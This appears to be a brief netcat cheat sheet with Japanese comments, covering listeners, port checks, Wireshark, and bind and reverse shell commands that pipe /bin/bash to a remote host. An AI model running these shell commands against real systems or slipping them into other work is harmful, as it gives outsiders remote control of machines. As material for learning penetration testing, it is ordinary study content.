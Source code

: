# How to Use Netcat

//netcatdでポート5555で接続を待ち受ける
nc -nlvp 5555

//接続待ちのポートを調べる
netstat -atn
lsof -i

//wireshark
sudo wireshark

//netcatでターゲットに接続する
nc $IP 5555


//Bind shell
//接続側：netcatをサーバーとして動作させて、接続したらシェルを操作できるようにする
nc -nlvp 5555 -e /bin/bash

//攻撃側から接続する
nc $IP 5555


//Reverse shell
//攻撃側
nc -nlvp 5555

//接続側
nc $IP 5555 -e /bin/bash
